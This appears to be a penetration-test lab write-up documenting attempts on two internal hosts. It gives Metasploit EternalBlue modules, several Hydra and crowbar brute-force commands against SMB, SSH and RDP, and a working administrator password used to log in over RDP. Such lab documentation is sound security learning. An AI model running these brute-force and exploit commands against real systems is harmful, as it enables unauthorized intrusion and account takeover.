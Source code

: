 ### Host 10.0.0.126 Process Documentation:


Attempted brute force attacks using 

Metasploit: Payload Delivery attempts executed using the following lines
	(use exploit/windows/smb/ms17_010_psexec)
	(use exploit/windows/smb/ms17_010_eternalblue)
	And their proceeding commands, RHOSTS, lhosts, etc...
Hydra: 
	Bruteforce Attacks attempts
	(hydra -L /home/kali/Desktop/TryTheseUSER.txt -P /home/kali/SecLists/Passwords/probable-v2-top1575.txt 10.0.0.126 smb -V -t4), 
	(hydra -L /home/kali/Desktop/TryTheseUSER.txt -P /home/kali/SecLists/Passwords/probable-v2-top207.txt 10.0.0.126 smb -V -t4)

Attempted to monitor traffic in hopes of acquiring login credentials or sensitive information using: 

Burp Suite: Interceptor proxy
Wireshark: ip.addr == 10.0.0.126


Reached a successful connection using kali terminal commands:


This command is an RDP brute force attack targeting an IP address, a single username, and a password list:(sudo python3 crowbar.py -b rdp -s 10.0.0.126/32 -u administrator -C /usr/share/wordlists/rockyou.txt)
This command allowed my RDP access to the host itself. rdesktop -u administrator 10.0.0.126 and then logged in with LongPass123. Successfully can now access the host remotely as administrator.

Was looking into running an ARPspoof to get information. However, that never came to fruition.

### Host 10.0.0.175 Process Documentation
After an extensive reconnaissance, we found out that the following ports are opened:
**Port 22**, which is been used for SSH, running an  Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
**Port  80**, which is used for http, running a Apache http 2.4.41 ((Ubuntu))
**Port 8089**, which is used for ssl/http, running a Splunkd http
Vulnerabilities that can be exploited

To exploit these, I consider the following approaches:using a bruteforce attack, to gain access to the target host

SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.2): I attempted to brute force the SSH login using a tool like Hydra, John the Ripper, metasploits .  However I could not gain initial access to this machine.

**Hydra**: I used this command, hydra -l /home/kali/Downloads/SecLists/Usernames/top-usernames-shortlist.txt -P /home/kali/Downloads/SecLists/Passwords/500-worst-passwords.txt 10.0.0.175 ssh -t 4

**Metasploits**: using the following command:Here's an example of how you might use Metasploit to gain access to a system via SSH:
Start Metasploit: First, you need to launch Metasploit. You can do this by typing msfconsole in your terminal and pressing enter. Wait for Metasploit to load up.

Use SSH auxiliary scanner: Metasploit contains an auxiliary scanner for SSH. You can use it by typing use auxiliary/scanner/ssh/ssh_version.
